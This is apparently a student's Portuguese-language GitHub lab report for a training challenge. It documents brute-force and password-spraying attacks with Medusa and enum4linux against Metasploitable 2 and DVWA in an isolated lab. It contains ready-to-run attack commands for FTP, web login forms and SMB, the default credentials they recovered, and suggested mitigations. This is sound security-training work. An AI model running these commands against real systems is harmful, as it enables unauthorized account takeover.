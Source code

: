 # Medusa-Kali
Desafio DIO: Força Bruta com Kali Linux e Medusa
Esse modelo cobre:

* Introdução e contexto
* Estrutura do ambiente (com topologia)
* Ataques realizados: FTP, DVWA (formulário web), SMB
* Comandos utilizados
* Wordlists
* Resultados e capturas de tela (use a pasta `/images`)
* Mitigações sugeridas
* Conclusão

Este repositório documenta o projeto prático proposto no desafio da DIO, focando na simulação de ataques de força bruta em ambientes controlados utilizando as ferramentas Kali Linux, Medusa e máquinas vulneráveis como Metasploitable 2 e DVWA. O objetivo é compreender vulnerabilidades comuns, testar autenticações inseguras e propor boas práticas de segurança.

Objetivos

* Compreender o funcionamento de ataques de força bruta em diferentes serviços (FTP, Web, SMB).
* Configurar e utilizar o Medusa para automatizar tentativas de autenticação.
* Documentar processos técnicos de forma clara e estruturada.
* Propor medidas de mitigação realistas e eficazes.
* Utilizar o GitHub como portfólio técnico.

Ambiente de Testes

| Componente  | Descrição                                   |
| ----------- | ------------------------------------------- |
| Host        | Kali Linux (VM)                             |
| Alvo        | Metasploitable 2 + DVWA (VM)                |
| Rede        | Host-Only (VirtualBox)                      |
| Ferramentas | Medusa, curl, Hydra (opcional), rockyou.txt |

Topologia:


[ Kali Linux ] ←(Host-only)→ [ Metasploitable 2 + DVWA ]



Ataques Realizados

1.Ataque FTP com Medusa

Comando:

medusa -h 192.168.56.105 -u msfadmin -P /usr/share/wordlists/rockyou.txt -M ftp -t 50

Explicação:

* `-h`: IP do alvo
* `-u`: usuário
* `-P`: caminho da wordlist
* `-M`: módulo (FTP)
* '-t': ativa a opção multithread que torna mais ágil e rapida a execução do comando.

* obs: Editado a wordlist rockyou.txt para inserir no começo da lista a senha msfadmin apenas para agilizar os testes.
* vim /usr/share/wordlists/rockyou.txt

Resultado:
Credenciais descobertas: `msfadmin:msfadmin`
Acesso validado via `ftp`.

2. Força Bruta em Formulário Web (DVWA)

Pré-requisitos:
Configurar DVWA para **segurança: LOW

Comando com Medusa:

medusa -h 192.168.56.105 -U users.txt -P pass.txt -M http -m PAGE:'/dvwa/login.php' -m FORM:'username=^USER^&password=^PASS^&Login=Login' -m 'FAIL=Login failed' -t 6



Explicação:

* Ataque no formulário de login da DVWA
* O parâmetro `FAIL` identifica falhas com base na resposta da página
* lista de usuarios criadas a partir da enumeração e senhas tambem.

Resultado:
Login com senha válida foi identificado.
usuario: admin
senha: password

3.Password Spraying no SMB com Enum4Linux

Etapa 1: Enumeração de usuários


enum4linux -U 192.168.56.105

* Foi criado o arquivo smb_users.txt com os usuários reportados na enumeração: echo "msfadmin\nadmin\nuser" > users.txt


Etapa 2: Ataque SMB


medusa -h 192.168.56.105 -U smb_users.txt -P rockyou.txt -M smbnt


Resultado:
Acesso obtido via SMB com usuário válido



Wordlists

Utilizada a wordlist rockyou.txt, já inclusa no Kali Linux, que conta com vários parâmetros sem a necessidade real de criar uma lista ampla:


/usr/share/wordlists/rockyou.txt


Obs: execute `gunzip rockyou.txt.gz` se necessário.



Evidências (Capturas de Tela)

As capturas estão na pasta [`/images`](./images):

`ftp_attack.png`
`dvwa_attack.png`
`smb_enum.png`
`success_login.png`

Recomendações de Mitigação

* Desabilitar serviços desnecessários (ex: FTP, Telnet).
* Aplicar bloqueios temporários após múltiplas tentativas falhas (ex: fail2ban).
* Implementar autenticação multifator (MFA).
* Utilizar senhas fortes e complexas, evitando padrões comuns.
* Atualizar e monitorar logs de autenticação regularmente.

Conclusão

Este projeto demonstrou, em um ambiente controlado, como ferramentas de ataque como o Medusa podem ser utilizadas para testar a segurança de serviços vulneráveis. A experimentação com wordlists e diferentes protocolos mostrou a importância da boa gestão de senhas, mitigações ativas contra ataques automatizados e que treinamento de pessoal com uma politica de seginfo bem estruturada ainda assim pode não ser suficiente para conter incidentes, mas diminui a probabilidade de sucesso de um ataque.

Referências

* [Kali Linux Tools](https://tools.kali.org/)
* [Medusa GitHub](https://github.com/jmk-foofus/medusa)
* [DVWA GitHub](https://github.com/digininja/DVWA)
* [Metasploitable 2](https://sourceforge.net/projects/metasploitable/)
* [rockyou.txt wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)



Autor

Carlos Eduardo Silva Bertazzoli
Projeto desenvolvido para o desafio da [Digital Innovation One (DIO)](https://www.dio.me)

